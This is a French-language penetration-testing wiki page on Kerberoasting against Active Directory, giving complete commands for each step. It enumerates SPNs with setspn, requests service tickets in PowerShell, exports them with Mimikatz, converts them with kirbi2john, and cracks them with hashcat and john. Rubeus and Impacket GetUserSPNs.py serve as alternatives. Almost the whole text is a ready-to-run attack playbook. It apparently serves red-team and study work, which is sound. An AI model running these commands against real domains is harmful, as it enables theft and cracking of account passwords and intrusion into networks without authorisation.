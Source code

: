 ```yaml
---
public: true # set to true to make the article publishable
---
```

## Sources

- https://dl.packetstormsecurity.net/papers/general/kerberoasting.pdf

## Objectifs
- Obtenir une liste de compte utilisateurs disposant d'un SPN
- Collecter les TGS associés à ces SPNs (chiffrés en RC4)
- Tenter de cracker les mots de passe des comptes utilisateurs à partir des TGS récupérés (qui sont chiffrés avec les hash de comptes utilisateurs respectifs)

## Méthodologie
### Locale

#### Manuelle

##### Récupérer un TGS

###### Liste des comptes avec leurs SPNs
```shell
# Enumérer tous les SPNs
setspn.exe -q */*
```

###### Demande d'un TGS

```powershell
# Demander un TGS pour le SPN désiré (compte utilisateur)
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MyUSERWithSPN/srvtest.domain.local"
```

###### Demander tous les TGS existants

Attention, cela ne sera pas du tout furtif !

```powershell
# Demander tous les TGS possibles
Add-Type -AssemblyName System.IdentityModel
setspn.exe -T DOMAIN.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```

##### Extraire le ou les Tickets (TGS)

Une fois les TGS générés par le KDC et stockés dans le système d'exploitation, on peut les récupérer via `Mimikatz`. 

```
mimikatz # base64 /out:true    <==== si on veut les transférer par copier / coller par exemple
mimikatz # base64 /out:true    <==== si on veut générer des fichiers .kirbi

mimikatz # kerberos::list /export  
```

```shell
# conversion depuis base64
echo "<base64 blob>" |  tr -d \\n | base64 -d > myUser.kirbi
# Extraction du hash pour l'utiliser avec john / hashcat
kirbi2john.py myUser.kirbi > vmware.hash
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' myuser.hash > myUser_tgs_hashcat
# Cassage avec hashcat
hashcat -m 13100 myUser_tgs_hashcat /usr/share/wordlists/rockyou.txt 
```

#### Utiliser Rubeus.exe

Il réalise les opérations suivantes :
- découverte des SPNs
- Dump des TGS
- Obtention des Hashs
- 
./Rubeus.exe kerberoast /outfile:hash.txt


#### Cracker les hash :

hashcat -m 13100 --force -a 0 hash.txt dict.txt

### Distante

#### Impacket

##### Utiliser GetUserSPNs.py
 Il réalise les opérations suivantes :
- découverte des SPNs
- Dump des TGS
- Obtention des Hashs

```
# Liste des comptes disposant d'un SPN
GetUserSPNs.py -dc-ip $TARGET_IP $AD_DOMAIN/$AD_USER:$AD_PASSWORD

# Récupération des TGS
GetUserSPNs.py -dc-ip $TARGET_IP $AD_DOMAIN/$AD_USER:$AD_PASSWORD -request

# Récupération d'un unique TGS
GetUserSPNs.py -dc-ip $TARGET_IP $AD_DOMAIN/$AD_USER:$AD_PASSWORD -request-user interesting.user

# Enregistrement des TGS pour les fournier à john / hashcat (fichier 'hashes.txt')
GetUserSPNs.py -dc-ip $TARGET_IP $AD_DOMAIN/$AD_USER:$AD_PASSWORD -request -outputfile hashes.txt
```

##### Cracker les hash (bruteforce)

```
john --wordlist=/path/to/rockyou.txt hashes.txt
```
[[_Techniques/Mots de passe/Casser un mot de passe/Hashcat]]
